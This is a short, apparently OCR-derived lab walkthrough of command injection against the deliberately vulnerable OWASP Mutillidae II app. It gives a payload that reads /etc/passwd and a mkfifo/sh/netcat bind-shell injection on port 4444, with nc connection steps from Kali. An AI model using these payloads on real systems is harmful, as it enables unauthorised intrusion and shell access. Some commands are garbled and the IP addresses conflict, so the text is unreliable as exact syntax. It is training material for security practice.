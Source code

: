 Step 6: Select OWASP Mutillidae II.
Step 7: Select A1 Injection(other) , Select command injection and Select lookup and use the
command- ;cat/etc/passwd
Step 8: The following records will be displayed.
Repeat the same step as above till Step 7.
Trying to gain shell access
Lets get a shell using sh and listen using netcat at port 4444.
To run shell and listen to the port simultaneously we need to pipe them in a file using mkfifo
So we’ll be using this command:
www.google.com;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
or www.google.com;mkfifo/tmp/pipe;sh/temp/pipe|nc-| 4444
Open kali
Open kali terminal
Now return to kali linux and open terminal.
Type: nc 192.168.29.185 4444 to connect to port 4444 and get shell access.
In terminal: sudo nc 192.168.73.129 4444
